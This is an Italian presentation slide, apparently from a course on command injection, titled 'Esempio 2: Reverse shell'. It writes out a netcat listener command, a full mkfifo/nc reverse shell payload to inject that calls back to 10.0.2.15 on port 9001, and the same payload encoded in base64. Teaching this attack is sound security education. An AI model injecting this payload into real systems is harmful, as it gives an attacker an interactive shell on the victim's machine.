

Esempio 2: Reverse shell
T
15
🠺

🠺
Per prima cosa l’attaccante si mette in ascolto su una determinata porta:
 nc -nvlp 9001
Comando da iniettare:
 rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.0.2.15 9001 >/tmp/f

Corrispettivo in base 64:
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjAuMi4xNSA5MDAxID4vdG1wL2Y=